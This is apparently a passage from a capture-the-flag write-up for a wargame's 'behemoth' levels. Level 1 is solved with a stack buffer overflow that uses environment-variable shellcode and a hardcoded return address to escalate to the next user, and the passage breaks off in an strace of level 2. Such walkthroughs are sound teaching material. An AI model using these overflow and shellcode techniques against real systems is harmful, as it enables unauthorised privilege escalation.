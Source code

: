Running pattern_offset.rb on the value in EIP shows that it's at offset 79. Since ASLR and NX are disabled, we can execute our shellcode on the stack and hardcode an address to it. We'll store our shellcode in an environment variable and get its address using [getenvaddr](https://github.com/Partyschaum/haxe/blob/master/getenvaddr.c): 

```
behemoth1@melinda:/tmp/koji$ export W00T=`python -c 'print "\xeb\x19\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x0a\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x54\x72\x79\x20\x68\x61\x72\x64\x65\x72"'`
behemoth1@melinda:/tmp/koji$ ./getenvaddr W00T /behemoth/behemoth1 
W00T will be at 0xffffdef1
```

Since the binary asks for input, we'll overflow the buffer by redirecting input from a file. 

```
behemoth1@melinda:/tmp/koji$ python -c 'from struct import *; print "A"*79 + pack("<I", 0xffffdef1)' > in.txt
```

Piping the contents of in.txt into behemoth1 elevates us to the behemoth2 user: 

```
behemoth1@melinda:/tmp/koji$ whoami
behemoth1
behemoth1@melinda:/tmp/koji$ (cat in.txt ; cat) | /behemoth/behemoth1 
Password: Authentication failure.
Sorry.
whoami
behemoth2
```

## Level 2

Running behemoth2 gives us an error and apparently freezes up so we need to hit Ctrl-C to terminate it: 

```
behemoth2@melinda:~$ /behemoth/behemoth2 
touch: cannot touch '32208': Permission denied
^C
behemoth2@melinda:~$ /behemoth/behemoth2 
touch: cannot touch '11843': Permission denied
^C
```

What's this doing? Running strace on it shows that the seemingly random file its attempting to access is actually the PID of the behemoth2 process, and then it sleeps:

```
getpid()                                = 14678
lstat64("14678", 0xffffd5b0)            = -1 ENOENT (No such file or directory)
unlink("14678")                         = -1 ENOENT (No such file or directory)
rt_sigaction(SIGINT, {SIG_IGN, [], 0}, {SIG_DFL, [], 0}, 8) = 0
rt_sigaction(SIGQUIT, {SIG_IGN, [], 0}, {SIG_DFL, [], 0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
clone(child_stack=0, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0xffffd4f0) = 14684
waitpid(14684, touch: cannot touch '14678': Permission denied
[{WIFEXITED(s) && WEXITSTATUS(s) == 1}], 0) = 14684
rt_sigaction(SIGINT, {SIG_DFL, [], 0}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {SIG_DFL, [], 0}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=14684, si_status=1, si_utime=0, si_stime=0} ---
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
rt_sigaction(SIGCHLD, NULL, {SIG_DFL, [], 0}, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
nanosleep({2000, 0}, 
```